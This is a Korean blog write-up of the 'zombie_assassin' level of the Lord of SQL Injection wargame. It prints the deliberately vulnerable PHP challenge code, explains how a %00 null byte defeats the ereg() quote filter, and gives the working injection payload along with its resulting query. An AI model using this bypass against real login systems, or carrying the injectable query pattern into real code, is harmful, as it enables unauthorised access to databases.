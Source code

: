 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie_assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


지난 문제에 이어 또 다른 `assassin` 문제이다.  

이번에는 `zombie_assassin`이란다.  

이 전 문제의 `assassin`이 죽지도 않고 다시 살아서 돌아왔나보다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='' and pw=''
------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

이번에도 `'(싱글쿼터)`에만 필터링이 있다.  

그런데 이번에는 `like`이 아니라 다시 `=`이 사용되었고, `preg_match()`가 아니라 `ereg()`가 사용되었다.  

`ereg()`는 이 전에도 한번 언급한 적 있었던 것 같은데, 필터링이 완벽하지 않다.  

대소문자 구분도 못할뿐더라, `%00`으로 `null byte`를 넣어주면 이를 문자열의 끝으로 인식 해 이 뒤의 문자는 검사하지 않는다.  

때문에 나도 `%00`을 사용 해 문제를 풀었다.  

아래와 같이 입력 해 주면 문제를 풀 수 있다.  

```
?id=admin&pw=%00a' or id='admin
```

```php
------------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='admin' and pw='a' or id='admin'
------------------------------------------------------------------------------------------

ZOMBIE_ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

`ZOMBIE_ASSASSIN Clear!!`